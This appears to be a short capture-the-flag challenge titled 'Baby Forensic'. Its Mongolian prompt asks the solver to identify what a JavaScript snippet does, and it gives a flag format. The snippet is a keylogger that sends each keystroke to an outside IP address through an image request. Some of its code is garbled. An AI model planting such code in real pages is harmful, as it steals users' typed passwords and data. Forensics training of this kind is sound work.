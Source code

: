 ## Baby Forensic (10pts)

Доор кодыг шинжилгээ хийн ямар үйлдэл хийж байгааг тодорхойл.

<script LANGUAGE="JavaScript">
document.captureEvents(Event.KEYPRESS);
document.onkeypress = captureKeystrokes;
function captureKeystrokes(e) {
var key = string.fromcharcode(e.which);
var img = new imageO;
var src = "http://192.155.221.7/index.htm" +
"keystroke=" + escape(key);
img.src = src;
return true;}
<script>| 
> Флаг формат: HZU18{Таны хариулт}
